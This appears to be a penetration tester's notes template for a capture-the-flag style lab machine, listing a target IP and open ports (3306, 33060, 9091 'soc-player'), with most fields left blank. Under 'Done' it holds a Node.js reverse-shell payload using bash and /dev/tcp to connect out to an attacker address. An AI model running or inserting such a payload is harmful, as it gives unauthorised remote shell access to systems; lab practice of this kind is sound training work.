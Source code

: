 # Notes

## Data 

IP: 10.129.166.131
OS: 
Hostname:
Domain:  / Domain SID:
Machine Purpose: 
Services:
Service Languages:
Users:
Credentials:

## Objectives

## Solution Inventory Map

### Todo 

- 9091 - we have a email registeration on soc-player
- 33060,
- 3306

### Done


```
require('child_process').exec('bash -i >& /dev/tcp/192.168.1.2/443 0>&1');
```
